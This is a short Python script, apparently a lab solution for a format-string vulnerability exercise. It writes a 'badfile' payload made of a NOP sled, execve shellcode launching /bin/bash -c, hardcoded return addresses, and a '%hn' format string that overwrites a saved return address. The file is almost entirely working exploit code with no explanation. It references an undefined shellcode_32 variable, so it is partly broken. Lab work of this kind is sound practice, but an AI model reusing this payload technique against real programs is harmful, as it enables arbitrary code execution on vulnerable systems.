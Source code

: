 ```python
# 64-bit Generic Shellcode 
shellcode_64 = (
   "\xeb\x36\x5b\x48\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x48"
   "\x89\x5b\x48\x48\x8d\x4b\x0a\x48\x89\x4b\x50\x48\x8d\x4b\x0d\x48"
   "\x89\x4b\x58\x48\x89\x43\x60\x48\x89\xdf\x48\x8d\x73\x48\x48\x31"
   "\xd2\x48\x31\xc0\xb0\x3b\x0f\x05\xe8\xc5\xff\xff\xff"
   "/bin/bash*"
   "-c*"
   # The * in this line serves as the position marker         *
   "/bin/ls -l; echo '===== Success! ======'                  *"
   "AAAAAAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBBBBBB"   # Placeholder for argv[1] --> "-c"
   "CCCCCCCC"   # Placeholder for argv[2] --> the command string
   "DDDDDDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')

N = 1500
# Fill the content with NOP's
content = bytearray(0x90 for i in range(N))

# Choose the shellcode version based on your target
shellcode = shellcode_32

# Put the shellcode somewhere in the payload
start = 1500-len(shellcode)       #0d1364       
content[start:start + len(shellcode)] = shellcode

 #        ffff                 db64
#0xFFFFD53C+2            0xFFFFD53C

ret_addr=0xFFFFD53C

ret_addr_low=ret_addr     # DA90
ret_addr_high=ret_addr+2  # FFFF

#change retaddr into 0xffffd610+0d1364=0xffff DA90

# new_ret=ret_addr+1364

content[0:4]=(ret_addr_low).to_bytes(4,byteorder='little')

content[4:8]=("AAAA").encode("latin-1")

content[8:12]=(ret_addr_high).to_bytes(4,byteorder='little')
#0xDA90-12-8*62=55952-508=55444
data = "%.8x"*62 + "%.55444x" + "%hn" + "%.9583x" + "%hn"
data = (data).encode('latin-1')
content[12:12+len(data)] = data

# Save the format string to file
with open('badfile', 'wb') as f:
  f.write(content)

```

